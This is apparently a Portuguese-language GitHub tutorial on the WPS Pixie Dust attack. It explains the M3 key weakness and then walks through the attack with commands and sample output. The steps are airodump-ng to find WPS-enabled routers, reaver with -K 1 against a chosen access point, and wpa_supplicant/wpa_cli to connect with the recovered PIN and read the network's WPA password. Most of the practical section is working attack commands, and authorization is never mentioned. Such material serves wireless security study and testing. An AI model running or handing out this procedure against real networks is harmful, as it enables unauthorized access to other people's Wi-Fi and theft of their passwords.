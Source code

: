 ## pegando psk com pixie-dust attack 


O pixie dust attack consiste em realizar a quebra do WPS de maneira offline.O método offline 
envolve tentar apenas um PIN aleatório e coletar algumas informações durante o processo. Esses 
dados podem ser usados posteriormente para tentar o ataque pixie-dust.
A vulnerabilidade está na mensagem M3: no corpo da mensagem é utilizado
duas chaves AES de 128 bits randômicas (E-S1 e E-S2) para encriptação da
primeira e da segunda metade do PIN, respectivamente. Se as duas chaves
forem descobertas, é possível recuperar o número PIN com um ataque offline
em menos de um segundo, em vez de “chutar” o número PIN no roteador, processo que pode levar 
de 8 a 12 horas (mais informações sobre o brute-force offline aqui http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf)


## Parte pratica
##### Com a interface em modo monitor você pode "sniffar" as redes em volta para identificar um alvo em potêncial com o airodump-ng adicionando a flag --wps dessa forma:
```
$ sudo airodump-ng --wps <interface>
```
> Repare na coluna WPS 

```
 CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ]
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER  WPS  AUTH  ESSID
                                                                                                             
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN          2.0           NETGEAR                         
 00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP     1.0           bigbear 
 00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP    2.0    PSK    teddy                             
                                                                                                            
 BSSID              STATION            PWR   Rate   Lost  Packets  Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy

```

##### Os APs com o WPS ativado apareceram nessa coluna com a versão do wps que o AP possui. Pode acontecer de alguns APs ficarem com um espaço vazio nessa coluna, isso é porque o wps está desativado.

##### Depois de ter identificado seu alvo, a ferramenta ultilizada para fazer o ataque ao WPS será a Reaver (link no final da pg) com o seguinte comando:
  
```
sudo reaver -i <interface> -c <channel> -b <mac do ap> -K 1
(pode ser adicionado a flag -vv)
```
##### O resultado pode variar um pouco porque depende muito do roteador que está sendo atacado. Essa falha é relativa ao firmware do roteador, não sendo todos os roteadores vulneráveis. Você pode ver alguns exemplos aqui -> https://forums.kali.org/showthread.php?25123-Reaver-modfication-for-Pixie-Dust-Attack ou pesquisar por conta própria e ver vários resultados diferentes que as pessoas conseguem por ai ...
##### Dependendo do resultado do ataque o reaver consegue recuperar apenas o PIN do WPS. Nos meus testes foi esse resultado que consegui, então a idéia é essa: recuperar o PIN com o ataque offline pixie-dust e depois se conectar ao AP com o pin recuperado usando o procedimento abaixo para então pegar o psk

1. ***Crie o arquivo wpa_supplicant.conf em /etc/ e nesse arquivo vai as seguintes linhas***:

> ctrl_interface=/var/run/wpa_supplicant
>  
> ctrl_interface_group=0
>  
> update_config=1
  

2. ***Inicie o wpa_supplicant, com o arquivo de configuração /etc/wpa_supplicant.conf***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
```

  
3. ***Em outro terminal inicie o wpa_cli para realizar a conexão ao ponto de acesso por meio do número PIN***:
```  
$ wpa_cli wps_reg 74:EA:3A:E1:E8:66 02283470
                     <mac do ap>    <pin wps>
```
  
  
4. ***O wpa_supplicant fará a conexão ao ponto de acesso. No terminal em que o wpa_supplicant foi iniciado
é retornado uma mensagem de que a conexão foi bem-sucedida***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
ioctl[SIOCSIWENCODEEXT]: Invalid argument
ioctl[SIOCSIWENCODEEXT]: Invalid argument
wlan0: Failed to initiate AP scan
wlan0: Trying to associate with 74:ea:3a:e1:e8:66 (SSID='TP-LINK_E1E866' freq=2462 MHz)
wlan0: Associated with 74:ea:3a:e1:e8:66
wlan0: WPA: Key negotiation completed with 74:ea:3a:e1:e8:66 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 74:ea:3a:e1:e8:66
completed (auth) [id=1 id_str=]
```
  
  
5. ***Visualize o conteúdo do arquivo /etc/wpa_supplicant.conf com a senha
wireless da rede***:
```
$ cat /etc/wpa_supplicant.conf
network={
ssid="TP-LINK_E1E866"
bssid=74:ea:3a:e1:e8:66
psk="senha123"
proto=RSN
key_mgmt=WPA-PSK
pairwise=CCMP
auth_alg=OPEN
}
```

referencia:
- https://novatec.com.br/livros/pentest-redes-sem-fio/
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access#WPS_PIN_recovery
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup
- https://github.com/wiire-a/pixiewps
- https://github.com/t6x/reaver-wps-fork-t6x
- https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)
